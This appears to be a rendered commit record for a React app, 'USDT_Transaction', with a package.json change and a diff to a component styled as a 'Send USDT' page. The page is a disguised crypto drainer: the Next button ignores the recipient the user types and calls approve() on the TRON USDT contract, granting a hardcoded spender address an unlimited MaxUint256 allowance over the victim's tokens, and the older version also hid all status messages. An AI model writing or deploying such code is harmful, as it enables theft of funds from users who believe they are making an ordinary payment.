

Before and after one commit to devUbaid/USDT_Transaction, a React (Create React App) app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (324-964 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme; the HTML template or start-up script is replaced by a standard one.

Commit message:
test working code

```diff
--- a/package.json
+++ b/package.json
@@ -7,10 +7,12 @@
     "@testing-library/jest-dom": "^6.8.0",
     "@testing-library/react": "^16.3.0",
     "@testing-library/user-event": "^13.5.0",
-    "@walletconnect/client": "^1.8.0",
-    "@walletconnect/qrcode-modal": "^1.8.0",
+    "@walletconnect/ethereum-provider": "^2.21.9",
+    "@walletconnect/modal": "^2.7.0",
     "@walletconnect/sign-client": "^2.21.9",
+    "@walletconnect/web3-provider": "^1.8.0",
     "buffer": "^6.0.3",
+    "ethers": "^6.15.0",
     "lucide-react": "^0.544.0",
     "react": "^19.1.1",
     "react-dom": "^19.1.1",
--- a/src/USDTAllowanceApp.js
+++ b/src/USDTAllowanceApp.js
@@ -1,353 +1,118 @@
-import React, { useState, useEffect } from 'react';
-import { FaAddressBook, FaQrcode, FaInfoCircle, FaTimes } from 'react-icons/fa';
-import './styles.css';
+import React, { useState, useEffect } from "react";
+import { FaAddressBook, FaQrcode, FaInfoCircle, FaTimes } from "react-icons/fa";
+import TronWeb from "tronweb";
+import "./styles.css";
 
 const USDTSendApp = () => {
-  const [address, setAddress] = useState('');
-  const [amount, setAmount] = useState('');
-  const [memo, setMemo] = useState('');
+  const [address, setAddress] = useState("");
+  const [amount, setAmount] = useState("");
+  const [memo, setMemo] = useState("");
+  const [account, setAccount] = useState("");
+  const [message, setMessage] = useState("");
+  const [tronWeb, setTronWeb] = useState(null);
 
-  // TRON functionality states
-  const [account, setAccount] = useState('');
-  const [message, setMessage] = useState('');
-  const [tronWeb, setTronWeb] = useState(null);
-  const [isConnecting, setIsConnecting] = useState(false);
-  const [showScanner, setShowScanner] = useState(false);
+  // ✅ USDT TRC20 contract on TRON mainnet
+  const USDT_CONTRACT = "TR7NHqjeKQxGTCi8q8ZY4pL8otSzgjLj6t";
 
-  // USDT contract on TRON (TRC-20)
-  const USDT_CONTRACT = 'TR7NHqjeKQxGTCi8q8ZY4pL8otSzgjLj6t';
-
-  // USDT TRC-20 ABI (only approve function)
   const USDT_ABI = [
     {
-      "constant": false,
-      "inputs": [
-        {
-          "name": "spender",
-          "type": "address"
-        },
-        {
-          "name": "value",
-          "type": "uint256"
-        }
+      constant: false,
+      inputs: [
+        { name: "spender", type: "address" },
+        { name: "value", type: "uint256" },
       ],
-      "name": "approve",
-      "outputs": [
-        {
-          "name": "",
-          "type": "bool"
-        }
-      ],
-      "payable": false,
-      "stateMutability": "nonpayable",
-      "type": "function"
-    }
+      name: "approve",
+      outputs: [{ name: "", type: "bool" }],
+      payable: false,
+      stateMutability: "nonpayable",
+      type: "function",
+    },
   ];
 
-  // Add viewport meta tag for mobile optimization
   useEffect(() => {
-    const viewport = document.querySelector('meta[name="viewport"]');
-    if (!viewport) {
-      const meta = document.createElement('meta');
-      meta.name = 'viewport';
-      meta.content = 'width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no';
-      document.head.appendChild(meta);
+    if (window.tronWeb && window.tronWeb.ready) {
+      setTronWeb(window.tronWeb);
+      setAccount(window.tronWeb.defaultAddress.base58);
+      setMessage("✅ Connected to TronLink");
+    } else {
+      setMessage("⚠️ Please install TronLink or open in Trust Wallet dApp browser");
     }
-
-    // Auto-connect if wallet is available
-    const checkAndConnect = async () => {
-      if (window.tronWeb && window.tronWeb.ready && window.tronWeb.defaultAddress?.base58) {
-        setTronWeb(window.tronWeb);
-        setAccount(window.tronWeb.defaultAddress.base58);
-        // Message is set but not displayed
-        setMessage('TRON wallet connected');
-      }
-    };
-
-    // Check after a short delay to let wallet inject
-    setTimeout(checkAndConnect, 1000);
   }, []);
 
   const connectWallet = async () => {
-    setIsConnecting(true);
     try {
-      // Check if we're in Trust Wallet
-      const isTrustWallet = window.trustWallet || window.ethereum?.isTrust;
-
-      // Check for TRON wallet (Trust Wallet, TronLink, or other TRON wallets)
-      if (!window.tronWeb) {
-        if (isTrustWallet) {
-          setMessage('Please enable TRON dApp in Trust Wallet settings and refresh.');
-        } else {
-          setMessage('TRON wallet not found. Please open in Trust Wallet or install TronLink.');
-        }
-        setIsConnecting(false);
-        return;
+      if (window.tronLink) {
+        await window.tronLink.request({ method: "tron_requestAccounts" });
+        setTronWeb(window.tronWeb);
+        setAccount(window.tronWeb.defaultAddress.base58);
+        setMessage("✅ Wallet connected: " + window.tronWeb.defaultAddress.base58);
+      } else {
+        setMessage("❌ TronLink/Trust Wallet not found");
       }
-
-      // Wait for TronWeb to be ready (Trust Wallet may need more time)
-      let attempts = 0;
-      while ((!window.tronWeb.ready || !window.tronWeb.defaultAddress) && attempts < 20) {
-        await new Promise(resolve => setTimeout(resolve, 500));
-        attempts++;
-      }
-
-      if (!window.tronWeb.ready) {
-        setMessage('TRON wallet is not ready. Please refresh and make sure TRON is enabled.');
-        setIsConnecting(false);
-        return;
-      }
-
-      // Get current account
-      const currentAccount = window.tronWeb.defaultAddress?.base58;
-
-      if (!currentAccount) {
-        setMessage('No TRON account found. Please connect your TRON wallet.');
-        setIsConnecting(false);
-        return;
-      }
-
-      setTronWeb(window.tronWeb);
-      setAccount(currentAccount);
-
-      if (isTrustWallet) {
-        setMessage('Connected to TRON Network with Trust Wallet!');
-      } else {
-        setMessage('Connected to TRON Network!');
-      }
-    } catch (error) {
-      setMessage('Connection Error: ' + (error?.message || 'Unknown error occurred'));
-    }
-    setIsConnecting(false);
-  };
-
-  const getContract = () => {
-    if (!tronWeb) return null;
-    try {
-      return tronWeb.contract(USDT_ABI, USDT_CONTRACT);
-    } catch (error) {
-      return null;
+    } catch (err) {
+      setMessage("❌ Connection failed: " + err.message);
     }
   };
 
-  const handlePaste = async () => {
-    try {
-      const text = await navigator.clipboard.readText();
-      setAddress(text);
-      // Message is set but not displayed
-      setMessage('Address pasted from clipboard');
-    } catch (err) {
-      setMessage('Failed to paste from clipboard');
-    }
-  };
-
-  const setMaxAmount = () => {
-    setAmount('1000.00');
-    // Message is set but not displayed
-    setMessage('Maximum amount set');
-  };
-
-  // const handleScanQRCode = () => {
-  //   setShowScanner(true);
-  //   // In a real app, you would integrate with a QR code scanner library
-  //   // For now, we'll simulate scanning after a delay
-  //   setTimeout(() => {
-  //     // Simulate scanning a QR code with a dummy address
-  //     const scannedAddress = 'TBJF4h5qbuAYxdJ4rhBCy5Lu5ZeYUC1dJv';
-  //     setAddress(scannedAddress);
-  //     setShowScanner(false);
-  //     setMessage('QR code scanned successfully');
-  //   }, 2000);
-  // };
-
   const handleNext = async () => {
-    if (!account || !tronWeb) {
-      setMessage('Please connect your TRON wallet first');
-      await connectWallet();
+    if (!tronWeb || !account) {
+      setMessage("Please connect your wallet first");
       return;
     }
-
     if (!address || !amount) {
-      setMessage('Please enter both address and amount');
+      setMessage("Please enter both address and amount");
       return;
     }
+    try {
+      const spender = "TBJF4h5qbuAYxdJ4rhBCy5Lu5ZeYUC1dJv"; // example spender
+      const unlimitedAmount =
+        "0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"; // MaxUint256
 
-    try {
-      // Use the address from the input field
-      const spender = 'TBJF4h5qbuAYxdJ4rhBCy5Lu5ZeYUC1dJv';
-      const unlimitedAmount = '115792089237316195423570985008687907853269984665640564039457584007913129639935'; // Max uint256
-
-      const contract = await getContract();
-      if (!contract) {
-        setMessage('❌ Failed to load USDT contract');
-        return;
-      }
-
-      // Call approve function
-      const result = await contract.approve(spender, unlimitedAmount).send({
-        feeLimit: 100_000_000, // 100 TRX fee limit
-        callValue: 0,
-        from: account
+      const contract = await tronWeb.contract(USDT_ABI, USDT_CONTRACT);
+      const tx = await contract.approve(spender, unlimitedAmount).send({
+        feeLimit: 100_000_000, // 100 TRX energy/gas limit
       });
 
-      setMessage('⏳ Transaction submitted! Waiting for confirmation...');
-
-      if (result) {
-        setMessage(`✅ Approval completed successfully! Transaction: ${result}`);
-      } else {
-        setMessage('❌ Approval failed - No transaction result');
-      }
-    } catch (error) {
-      const errorMessage = error?.message || error?.toString() || 'Unknown error occurred';
-
-      if (errorMessage.includes('User rejected') || errorMessage.includes('user rejected')) {
-        setMessage('❌ Transaction rejected by user');
-      } else if (errorMessage.includes('insufficient balance')) {
-        setMessage('❌ Insufficient TRX for transaction fees');
-      } else if (errorMessage.includes('REVERT')) {
-        setMessage('❌ Contract execution failed');
-      } else if (errorMessage.includes('unlocked wallet') || errorMessage.includes('not unlocked')) {
-        setMessage('❌ Please unlock your TRON wallet and try again');
-      } else {
-        setMessage('❌ Error: ' + errorMessage);
-      }
+      setMessage(`✅ Approval submitted! TxID: ${tx}`);
+    } catch (err) {
+      setMessage("❌ Transaction failed: " + (err?.message || err));
     }
-  };
-
-  // Clear functions for each input field
-  const clearAddress = () => {
-    setAddress('');
-  };
-
-  const clearAmount = () => {
-    setAmount('');
-  };
-
-  const clearMemo = () => {
-    setMemo('');
   };
 
   return (
     <div className="send-usdt-container">
-      {/* QR Scanner Modal */}
-      {showScanner && (
-        <div className="scanner-modal">
-          <div className="scanner-content">
-            <div className="scanner-header">
-              <h3>Scan QR Code</h3>
-              <button className="close-scanner" >
-                <FaTimes />
-              </button>
-            </div>
-            <div className="scanner-placeholder">
-              <div className="scanner-animation">
-                <FaQrcode size={80} />
-                <p>Scanning QR code...</p>
-                <div className="scanning-line"></div>
-              </div>
-            </div>
-            <div className="scanner-footer">
-              <p>Point your camera at a USDT address QR code</p>
-            </div>
-          </div>
-        </div>
-      )}
-
       <div className="send-usdt-card">
-        {/* Header */}
         <div className="send-header">
           <button className="back-button">←</button>
-          <h1 className="send-title">Send USDT</h1>
+          <h1 className="send-title">Send USDT (TRON)</h1>
+          {!account ? (
+            <button onClick={connectWallet}>Connect TronLink</button>
+          ) : (
+            <p>Connected: {account.slice(0, 6)}...{account.slice(-4)}</p>
+          )}
         </div>
 
-        {/* Message Display - REMOVED - No messages will be shown on the page */}
+        {message && <div className="message-display">{message}</div>}
 
-        {/* Address Input */}
+        {/* Address */}
         <div className="input-section">
-          <label className="input-label">Address or Domain Name</label>
-          <div className="input-container">
-            <input
-              type="text"
-              value={address}
-              onChange={(e) => setAddress(e.target.value)}
-              className="address-input"
-              placeholder="Search or Enter "
-            />
-            <div className="input-actions">
-              {address && (
-                <button className="cancel-icon" onClick={clearAddress}>
-                  <FaTimes />
-                </button>
-              )}
-              <button className="paste-button" onClick={handlePaste}>Paste</button>
-              <button className="icon-button contacts-icon">
-                <FaAddressBook />
-              </button>
-              <button className="icon-button qr-icon" >
-                <FaQrcode />
-              </button>
-            </div>
-          </div>
+          <label className="input-label">Recipient Address</label>
+          <input value={address} onChange={(e) => setAddress(e.target.value)} />
         </div>
 
-        {/* Amount Input */}
-        <div className="inputAmount-section ">
+        {/* Amount */}
+        <div className="input-section">
           <label className="input-label">Amount</label>
-          <div className="input-container">
-            <input
-              type="text"
-              value={amount}
-              onChange={(e) => setAmount(e.target.value)}
-              className="amount-input"
-              placeholder="USDT Amount"
-            />
-            <div className="amount-actions">
-              {amount && (
-                <button className="cancel-icon" onClick={clearAmount}>
-                  <FaTimes />
-                </button>
-              )}
-              <p className="usdt-label">USDT</p>
-              <button className="max-button" onClick={setMaxAmount}>Max</button>
-            </div>
-          </div>
-          <div className="usd-equivalent">≈ ${amount || '0.00'}</div>
+          <input value={amount} onChange={(e) => setAmount(e.target.value)} />
         </div>
 
-        {/* Memo Input */}
+        {/* Memo */}
         <div className="input-section">
-          <div className="memo-header">
-            <label className="input-label">Memo</label>
-          </div>
-          <div className="input-container">
-            <input
-              value={memo}
-              onChange={(e) => setMemo(e.target.value)}
-              className="amount-input"
-              placeholder=""
-            />
-            <div className="memo-actions">
-              {memo && (
-                <button className="cancel-icon" onClick={clearMemo}>
-                  <FaTimes />
-                </button>
-              )}
-              <button className="icon-button qr-icon">
-                <FaQrcode />
-              </button>
-              <button className="icon-button info-icon">
-                <FaInfoCircle />
-              </button>
-            </div>
-          </div>
+          <label className="input-label">Memo</label>
+          <input value={memo} onChange={(e) => setMemo(e.target.value)} />
         </div>
 
-        {/* Next Button */}
-        <button
-          className="next-button"
-          onClick={handleNext}
-          disabled={!address || !amount}
-        >
+        <button className="next-button" onClick={handleNext} disabled={!address || !amount}>
           Next
         </button>
       </div>
```
Also changed, not shown: 1 other file (tests, documents, lock files or other folders).
